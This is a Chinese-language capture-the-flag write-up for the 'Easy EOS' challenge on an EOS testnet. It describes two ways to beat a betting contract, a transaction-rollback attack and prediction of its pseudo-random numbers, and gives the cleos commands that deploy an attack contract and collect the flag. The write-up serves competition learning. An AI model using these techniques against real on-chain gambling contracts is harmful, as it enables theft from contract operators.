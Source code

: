 >  恭喜Whitzard、$wagger、NoSugar、AAA解出Easy Eos。

## 题目

标题：Easy EOS

作者：Gaia

描述：

```shell
Try to win this game.
account: de1ctf111eos
EOS Jungle2.0 Testnet
You need to win at least 10 times.
You can ask for a flag with the sendmail function. (username: your account, address: your email address)

hint for [Easy EOS]: the num of bet action is in range 0-4. Decompilation is optional.
hint for [Easy EOS]: if you lost，you can't bet anymore with this account.
```



## 答案

### 方法一：交易回滚攻击

经观察，发现`bet action` 在一次交易中完成了猜数字游戏，并且发现若赢了，则users表中win的次数+1；若输了，则users表中lost的次数+1。

可以通过部署合约，通过`inline action`的方式，分别进行猜数字和判断。第一个`action`猜数字，第二个`action`进行判断刚刚是否赢了。若赢了，则通过；若输了，则抛出异常，使整个交易回滚。（耍赖）

攻击方式

```shell
# 设置权限
cleos set account permission gllrgjlqclkp active '{"threshold": 1,"keys": [{"key": "EOS7fyKcyPhP5P4S5xXqLzYEFg5bYuYRvxzsX3UJ5W7vAxvXtgYAU","weight": 1}],"accounts":[{"permission":{"actor":"gllrgjlqclkp","permission":"eosio.code"},"weight":1}]}' owner -p gllrgjlqclkp@owner
# 编译合约
cd attack
eosio-cpp -o attack.wasm attack.cpp
# 部署合约
cleos set contract gllrgjlqclkp . -p gllrgjlqclkp@active
# 调用makebet方法多次，直到账号win次数大于等于10
cleos push action gllrgjlqclkp makebet '[]' -p gllrgjlqclkp@active
# 请求发送flag
cleos push action de1ctftest11 sendmail '["gllrgjlqclkp", "xxxx@qq.com"]' -p gllrgjlqclkp@active
```

### 方法二：伪随机数攻击

经过反编译得到伪随机数产生的算法，部署相应的合约，在一次交易中，计算将要产生的随机数，然后用该随机数调用目标合约的`bet action`。

攻击方式

```shell
# 设置权限
cleos set account permission btdaciaibmfp active '{"threshold": 1,"keys": [{"key": "EOS7fyKcyPhP5P4S5xXqLzYEFg5bYuYRvxzsX3UJ5W7vAxvXtgYAU","weight": 1}],"accounts":[{"permission":{"actor":"btdaciaibmfp","permission":"eosio.code"},"weight":1}]}' owner -p btdaciaibmfp@owner
# 编译合约
cd attack4
eosio-cpp -o attack4.wasm attack4.cpp
# 部署合约
cleos set contract btdaciaibmfp . -p btdaciaibmfp@active
# 调用makebet方法10次
cleos push action btdaciaibmfp makebet '[]' -p btdaciaibmfp@active
# 请求发送flag
cleos push action de1ctftest11 sendmail '["btdaciaibmfp", "xxxxxx@gmail.com"]' -p btdaciaibmfp@active
```





